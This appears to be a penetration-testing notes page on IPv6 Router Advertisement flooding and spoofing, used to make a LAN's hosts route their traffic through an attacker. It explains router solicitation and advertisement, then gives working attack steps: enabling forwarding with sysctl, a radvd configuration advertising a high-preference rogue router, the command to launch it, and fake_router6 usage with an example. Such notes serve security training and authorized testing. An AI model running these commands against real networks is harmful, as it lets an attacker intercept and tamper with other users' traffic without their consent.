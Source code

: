 # Router Advertisement Flooding

## Router Advertisement

#### An attacker can introduce an IPv6 router on the network by responding to IPv6 client Router Solicitation (RS) messages:

1. IPv6 nodes will regularly send ICMPv6 RS messages to discover the presence of IPv6 routers on the network using the anycast address FF02::2 (all routers)
2. IPv6 routers, upon receiving an ICMPv6 RS message, will send a multicast message on the network in the form of an ICMPv6 Router Advertisement (RA). RA messages are sent to the all multicast nodes address FF02::1.
3. When the attacker wants to establish himself as the IPv6 default router, he sends his own RA message to the all nodes multicast address. The attacker's RA message specifies that his router has the highest preference, taking precedence over all prior legitimate RA messages.
4. The victim, having observed the attacker's RA message with high preference, sends all IPv6 traffic destined for remote networks to the attacker.

## Exploitation

The IPv6 router MitM attack is useful in environments where the attacker wants to establish a MitM attack for all the LAN IPv6 victims, forwarding traffic to the legitimate IPv6 router or to the attacker's own IPv6 connection to the internet (possibly tunneled through an IPv4 connection).

#### To implement the IPv6 router MitM attack, the attacker must first configure IPv6 forwarding using the Linux sysctl tool, as shown. Next, the attacker should manually add a default route for use in forwarding traffic from victims to the legitimate router with the Linux "ip route add" command, as shown.

### radvd

Multiple options are available for impersonating an IPv6 router, including the THC-IPV6 tool "fake\_router6."

A more robust approach is to simply configure the Linux IPv6 router software "radvd" (http://www.litech.org/radvd) with the configuration directives specified on this page.

Once the attacker is ready to start the MitM attack, he only needs to start the radvd process, identifying the desired configuration file with the "-C" argument.

```
sysctl -w net.ipv6.conf.all.forwarding=1

# specify the legitimate IPv6 address for the
# cat >/etc/radvd.conf

interface eth0 {
        AdvSendAdvert on;
        # Process should send advertisements
        AdvDefaultPreference high; # Highest advertised preference
        MinRtrAdvInterval 3;
        # 3 second minimum between ads
        MaxRtrAdvInterval 4;
        # 4 second maximum between ads
        prefix fc00:660:0:1::/64 { # Address space and prefix for clients to use
        };
};
^D

radvd -C /etc/radvd.conf
```

### fake\_router6

fake\_router6 is a tool inside THC-IPv6 tools bundled inside Kali linux to test exploit & attack weaknesses & protocol complexity in ipv6 & icmp6 protocols. As the name suggests, it’s from the Hackers’ Choice. Before we begin the attack, lets get under the hood for a minute. In IPv4, you know what is “ARP”, here in IPv6, its replaced by ND expanded as Neighbor Discovery. ND combines the functionality of ARP,ICMP, ICMP-Redirect & router discovery which is present in IPv4. There are several other advanteges & additional functionalities for ND like to discover neighbouring devices & hosts, link the layer2 (link layer) addresses, advertise the presence of a host/router etc. There are basically 5 types of ND messages.

* **Router Solicitation (ICMPv6 type 133)**
* **Router Advertisement (ICMPv6 type 134)**
* **Neighbor Solicitation (ICMPv6 type 135)**
* **Neighbor Advertisement (ICMPv6 type 136)**
* **Redirect (ICMPv6 type 137)**

```
fake_router6 [-HFD] interface network-address/prefix-length [dns-server [router-ip-link-local [mtu [mac-address]]]]

-H adds hop-by-hop
-F fragmentation header
-D dst header
```

#### example:

```
fake_router6 eth0 <replace with your interface> bad::00/64 <replace with your fake n/w>
```

![](<../../../.gitbook/assets/image (280).png>)

![](<../../../.gitbook/assets/image (295) (1).png>)
